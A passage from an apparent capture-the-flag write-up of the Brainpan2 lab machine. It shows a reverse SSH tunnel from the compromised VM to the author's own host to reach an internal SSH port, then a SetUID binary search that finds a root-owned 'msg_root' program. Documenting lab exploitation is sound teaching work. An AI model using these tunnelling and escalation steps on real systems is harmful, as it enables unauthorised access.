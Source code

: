 Now, I just had to figure out a way to access the '127.0.1.1:2222' port from my MacBook, so I could get a real SSH connection. I managed to use a reverse SSH tunnel to complete this.

```
anansi@brainpan2:/opt/brainpan$ ssh mandreko@192.168.1.136 -R 9876:127.0.1.1:2222
<pan$ ssh mandreko@192.168.1.136 -R 9876:127.0.1.1:2222
Password:<redacted>

Last login: Wed Nov 20 16:44:34 2013
```

Now, in a third terminal window, I was able to SSH in.

```
➜  ~  ssh anansi@localhost -p 9876
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov  5 09:13:28 2013
anansi@brainpan2:~$
```

I figured the next step would be to escalate my privileges, so I started looking for programs that were SetUID, meaning that when they ran, they ran under the privileges of the user that owned them. I found one, in another user's home folder, which I was conveniently able to view.

```
anansi@brainpan2:~$ find / -perm -u=s -type f 2>/dev/null
/usr/sbin/exim4
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/umount
/bin/ping
/bin/mount
/bin/ping6
/bin/su
/home/reynard/msg_root
anansi@brainpan2:~$ cd /home/reynard
anansi@brainpan2:/home/reynard$ ls -al
total 44
drwxr-xr-x 3 reynard reynard 4096 Nov  7 09:54 .
drwxr-xr-x 5 root    root    4096 Nov  4 10:57 ..
-rw------- 1 reynard reynard    0 Nov  7 09:54 .bash_history
-rw-r--r-- 1 reynard reynard  220 Nov  4 10:57 .bash_logout
-rw-r--r-- 1 reynard reynard 3392 Nov  4 10:57 .bashrc
-rwsr-xr-x 1 root    root    8999 Nov  6 17:10 msg_root
-rw-r--r-- 1 reynard reynard  675 Nov  4 10:57 .profile
-rw-r--r-- 1 reynard reynard  154 Nov  5 23:20 readme.txt
-rwxr-xr-x 1 reynard reynard  137 Nov  4 19:59 startweb.sh
drwxr-xr-x 3 reynard reynard 4096 Nov  4 19:32 web
```
